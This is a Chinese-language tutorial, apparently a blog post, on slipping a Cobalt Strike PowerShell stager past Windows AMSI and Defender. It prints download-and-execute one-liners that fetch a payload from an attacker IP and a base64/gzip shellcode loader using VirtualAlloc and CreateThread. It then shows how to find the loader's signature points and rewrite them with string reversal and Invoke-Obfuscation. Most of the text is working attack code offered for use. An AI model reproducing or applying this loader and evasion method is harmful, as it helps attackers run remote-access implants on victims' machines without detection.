



# 0x00 简介

powershell是个强大的工具,早期用起来可以说是为所欲为。但是AMSI(反恶意软件扫描接口)影响着这些。



AMSI 它是使用"基于字符串"的检测手段确定是否是恶意程序,powershell强大的功能让我们绕过它相对容易，

因为它可以引用.NET 我们进行简单的字符串反转,base64,xor 等等来绕过,同时powershell判断特征码在那里也很容易。


# 0x01 分析

首先我们打开CS生成powershell代码

>Attacks -> Web Drive-by -> Scripted Web Delivery



获得命令

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.130.142:80/a'))"

```

就是个简单的bypass加远程下载执行,核心在远程文件 所以我们打开看看

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAO1WbW/aSBD+HH7FXoRUUMI7JSRVpa4BgynvEANB0cnYa7Nh7XW9Noa2+e83xg5XkmtPutN9O0vI3mHmmXlmZ3dmSvzc1Peo7ve5QVBOJZ6g3EHlVCpNqK556CN69w4WTa748P3pXSqtCUHsNTtEy8vURSCoY6HpQfjE/nC+zE8Cx6c2ySuOTzzuTom3ozoRoOZoNhGuphNEnSei++hb6uLCDdaM6khn4AKZgaMfpRcrmWmWeETJ38QJbIQZ47rmQ6yzg0vQN9Tgtk2jEIv7UrFYvEYTIsAdOUrKIEHPP8PqE5t7h5HHfQgkYv8NtfZED3wyIZox96gfo1R/gTEDmugOBdQBKkhxTOq8mMnJkxg3GVNsl3t+5nJLPIewSjlvMHaZPQEKH4gB7h6S5gCWP/I9pFLPDzR25J1JZMzFhuERIa5jx0Y4pV9JsjDZeY5O4oRo9sO/CafhEc0nsw28jD/DidfYh4paQ/p+iMvX9G0c3EkZZJ5/InASjzQPagN8nYyPvoDFMe0/aMbeFOMfMonA5xr1Ze5NoWYZGa6jSnxhs+lojsEg4OPWGmGfMkYF0bljiKNH2M7n1OUnOBw6t13KSHRYBiTMxTioT3WPC276+cZ0o3lu8mrAQYMt2FGDeKm0G7EV54bJ4YkUmzx6x+inj1OGxIt9fkJM4hFHJwaOTyclIg+5nWiORTKfMpcJZpSPa7QaidjVYz5RP+R7SalksyfQNnGIB7usOPEJgSjTMy8gqTRsWcCiw3ai/hLcC57scXvKA08nmQTuGp1ujmwqtZIOPlk9PqZ3mve7Ht09H9HqRNzZEc9/vLuLUCRNkFo1uqQcK3NZGNIuhmepOKxvdLe0pITw68PvnlYU3rwxPnefOoW+3hCjtlzHNLRCvT7AuknrcncBemNaVOrYaPTGHSqHnclnbEggs5a0ZFnYGD2NWnZvoAiplODE9nq12lkUcaVSHVaKW4N0I/0tNgY2Dfc9+NaxMexJYFdUWKvbmKznZflhzjqFqrwx51xMa9UHQ2u/ZwaWuFFmgaZO+Kyj21KhoPbN24VaMhZq2aqpju0UbhfuJiIqi/1BlSeaNZjcz6nWCTG+L0lcrdrmfldQaxVpDXmYahg3lspkes+6s3sm8VrpPhgCLtzhzbCE9wXA1na3M9W2fGmzuSnczuUQX7XCsIVxs1PYmA9FSXHe10LGv4gFXZiRrcwnU5n0zTg+zTImKmD7JdNqAPYuxDuI8P2+Mq2AjrsdA9bQ6eIxxjVlVygU6rvlXB1MxxJ/mO/FOvzv3lhWvz4sFH88N9jaGdeUVmlHbCbW7dZuMK2GSmPztC6XwuVi4i7tPRsepMF9kclKsxX2nvCNIhvu2p7sjErfmrGxNaDVA+gsZiW9PGgKS+103Ye2GhiNehn03eaYY62tAn79//fP3lDn9d6cqlCn2hb2SIJqaVsYQ5mo5c3SlUcM6nAWjKNCx1JZlWeUQJ1iDEpSVKtTxh16rNXOrE1DXQqrC2wQdRleUbdgFgr92fbQe2qVh43qvv8VB/3Z+IDj5+Ml3DPpdWCax5t5FQ8a+WiugKvlrJ/CuHC6iPI94lj+Bl2h0vWZ0dV5PwWMlxEjtx56f6MajyevAF8PHqD3evDIpqiJMiuJc/b4W0ImCxNG6iJtMb7W2N3pLq58AKlH/AB6W+o5tfr1DJbva57YaOwYm3vInPhfoygbsae3acmmVnF/fERp/9h/36b2bDYonuPFy+I5rRgoG017b1jdnLNKWk/5rde/auUJ8qu0Rw0dDF6GtGzqHTRxJYonoXZ3J2BUQTnyBdWPUYloVMk98TVk/tjNMmkti5TWAnoaekY5yDEWlTLKYc8KbAKDRTwwf0chRHU0/A4DqU7ojuS6fA1ECBMkgj6CRMog+wM3P3SxjgsAAA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();

```

是一个base64 + Gzip 压缩 其实解密后就是我们在 生成shell code 当中选择的 powershell Command 也可以用下面这段代码解密

```
$data = [System.Convert]::FromBase64String('gzip base64')
$ms = New-Object System.IO.MemoryStream
$ms.Write($data, 0, $data.Length)
$ms.Seek(0,0) | Out-Null
$sr = New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))
$sr.ReadToEnd() | set-clipboard

```

运行完成后会在你的剪切板，直接粘贴就行了,如下解密后的文件

```
Set-StrictMode -Version 2

$eicar = ''

$DoIt = @'
$assembly = @"
    using System;
    using System.Runtime.InteropServices;
    namespace inject {
        public class func {
            [Flags] public enum AllocationType { Commit = 0x1000, Reserve = 0x2000 }
            [Flags] public enum MemoryProtection { ExecuteReadWrite = 0x40 }
            [Flags] public enum Time : uint { Infinite = 0xFFFFFFFF }
            [DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
            [DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            [DllImport("kernel32.dll")] public static extern int WaitForSingleObject(IntPtr hHandle, Time dwMilliseconds);
        }
    }
"@

$compiler = New-Object Microsoft.CSharp.CSharpCodeProvider
$params = New-Object System.CodeDom.Compiler.CompilerParameters
$params.ReferencedAssemblies.AddRange(@("System.dll", [PsObject].Assembly.Location))
$params.GenerateInMemory = $True
$result = $compiler.CompileAssemblyFromSource($params, $assembly)

[Byte[]]$var_code = [System.Convert]::FromBase64String("xxxxxxxxxxx")

$buffer = [inject.func]::VirtualAlloc(0, $var_code.Length + 1, [inject.func+AllocationType]::Reserve -bOr [inject.func+AllocationType]::Commit, [inject.func+MemoryProtection]::ExecuteReadWrite)
if ([Bool]!$buffer) { 
    $global:result = 3; 
    return 
}
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $buffer, $var_code.Length)
[IntPtr] $thread = [inject.func]::CreateThread(0, 0, $buffer, 0, 0, 0)
if ([Bool]!$thread) {
    $global:result = 7; 
    return 
}
$result2 = [inject.func]::WaitForSingleObject($thread, [inject.func+Time]::Infinite)
'@

If ([IntPtr]::size -eq 8) {
    start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
    IEX $DoIt
}

```

`$var_code` 中base64解密的也就是 CS生成shellcode 选择的RAW格式文件,这段代码其实也就是调用.net来加载我们的shellcode，

如何判断这个脚本的特征码的位置，我们可以才用删一部分运行的方式，不用在乎语法错误的问题，因为它判断你有特征字符串就给你拦截了。

经过简单的定位我发现 有2处是这个文件的特征

1.

```
[Byte[]]$var_code = [System.Convert]::FromBase64String("xxxxxxxxxxx")

```


2. 

```
$buffer = [inject.func]::VirtualAlloc(0, $var_code.Length + 1, [inject.func+AllocationType]::Reserve -bOr [inject.func+AllocationType]::Commit, [inject.func+MemoryProtection]::ExecuteReadWrite)

```

第一处是马的特征很好处理,第二处执行shellcode 其实跟我前面讲到的类似,知道位置了就很好操作了。


# 0x02 混淆

字符串好办我们直接写个函数反转一下,第二个直接用工具生成了 https://github.com/danielbohannon/Invoke-Obfuscation

这个工具是专门混淆powershell的，效果不错,命令过程：

```
PS D:\Invoke-Obfuscation-master> Import-Module .\Invoke-Obfuscation.psd1

PS D:\Invoke-Obfuscation-master> Invoke-Obfuscation

Invoke-Obfuscation> Set scriptblock (你要混淆的代码)


Choose one of the below options:

[*] TOKEN       Obfuscate PowerShell command Tokens
[*] AST         Obfuscate PowerShell Ast nodes (PS3.0+)
[*] STRING      Obfuscate entire command as a String
[*] ENCODING    Obfuscate entire command via Encoding
[*] COMPRESS    Convert entire command to one-liner and Compress
[*] LAUNCHER    Obfuscate command args w/Launcher techniques (run once at end)


Invoke-Obfuscation> compress


Choose one of the below Compress options to APPLY to current payload:

[*] COMPRESS\1  Convert entire command to one-liner and compress


Invoke-Obfuscation\Compress> 1

Executed:
  CLI:  Compress\1
  FULL: Out-CompressedCommand -ScriptBlock $ScriptBlock -PassThru

Result:
 ( nEw-ObjeCt io.STreAMrEADer( (nEw-ObjeCt SysTEM.Io.COmPrESsiOn.DeFlAtEsTReAM( [sysTEM.Io.mEMorySTReAm] [CONvert]::fRoMbAse64sTRING('1]::DECOmpreSs) ) ,[sysTem.TExt.enCODinG]::ascII) ).reADtOend( )| & ( $sHeLLid[1]+$sHeLlID[13]+'x')


Choose one of the below Compress options to APPLY to current payload:

[*] COMPRESS\1  Convert entire command to one-liner and compress


Invoke-Obfuscation\Compress> out G:\test.ps1

```

工具中输入`TUTORIAL` 有说明 ,用到的也差不多就这几句所以不多讲了，当然你可以把这2处特征都用这个方法混淆了。

```
Set-StrictMode -Version 2

$eicar = ''

$DoIt = @'
$assembly = @"
    using System;
    using System.Runtime.InteropServices;
    namespace inject {
        public class func {
            [Flags] public enum AllocationType { Commit = 0x1000, Reserve = 0x2000 }
            [Flags] public enum MemoryProtection { ExecuteReadWrite = 0x40 }
            [Flags] public enum Time : uint { Infinite = 0xFFFFFFFF }
            [DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
            [DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            [DllImport("kernel32.dll")] public static extern int WaitForSingleObject(IntPtr hHandle, Time dwMilliseconds);
        }
    }
"@

$compiler = New-Object Microsoft.CSharp.CSharpCodeProvider
$params = New-Object System.CodeDom.Compiler.CompilerParameters
$params.ReferencedAssemblies.AddRange(@("System.dll", [PsObject].Assembly.Location))
$params.GenerateInMemory = $True
$result = $compiler.CompileAssemblyFromSource($params, $assembly)
Function revstring($tochar)
{
    $tochar = $tochar.ToCharArray()
    [Array]::Reverse($tochar)
    $tochar = -join $tochar
    return $tochar
}
$a = revstring "=AAAAAAAyQTMuAzMx4CO2EjLykTM//f/pi+wYVedAX4wBcwiGTHwFW9/inolSgmVTBAAgAAaXdeiTFV2BAAAAAQuTW9/lPFpYh2VAAEAAgGAAABAoBkaV/vViWL8oBAAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvx
GblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAvxGblhGAv"

[Byte[]]$var_code = [System.Convert]::FromBase64String($a)

$buffer =  &( $PSHoMe[4]+$PShomE[30]+'x')(New-ObJecT sYSTem.iO.STrEAMREADEr((New-ObJecT SYstem.IO.COmprESsiOn.DefLAtESTREaM([iO.memoRyStREaM] [sYstem.cOnvERT]::frOMBASe64stRiNg('i87My0pNLtFLK81LjrWyCsssKilNzHHMyclP1jDQUVApSyyKT85PSdXzSc1LL8lQ0FYw1FGIRtKkDVabWJKZnxdSWZAKNCMotTi1qCxVQTfJv4iAUuf83NzMEjQDfVNz84sqA4ryS4BCQLVAda4VqcmlJalBqYkp4UWZJamaAA==') ,[io.coMPRESsIoN.ComPreSSiOnmOde]::DECOMpreSs ) ) ,[TeXT.EncodInG]::asCII)).ReAdtoend() 
if ([Bool]!$buffer) { 
    $global:result = 3; 
    return 
}
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $buffer, $var_code.Length)
[IntPtr] $thread = [inject.func]::CreateThread(0, 0, $buffer, 0, 0, 0)
if ([Bool]!$thread) {
    $global:result = 7; 
    return 
}
$result2 = [inject.func]::WaitForSingleObject($thread, [inject.func+Time]::Infinite)
'@

If ([IntPtr]::size -eq 8) {
    start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
    IEX $DoIt
}

```

里面我定义了一个函数反转字符串，提供一个思路其他方法大家自己多探究探究。

然后可以直接在host file 里面设置它然后把网址替换即可，当然你觉得这个ps1脚本大的话也可以压缩然后base64加密一下,就跟原来的相同了

```
powershell -nop -exec bypass  -c "IEX ((new-object net.webclient).downloadstring('http://192.168.130.142:80/download/file.ext'))"

```



参考文章http://www.offensiveops.io/tools/cobalt-strike-bypassing-windows-defender-with-obfuscation/


# 0x03 文末


### 本文如有错误，请及时提醒，以免误导他人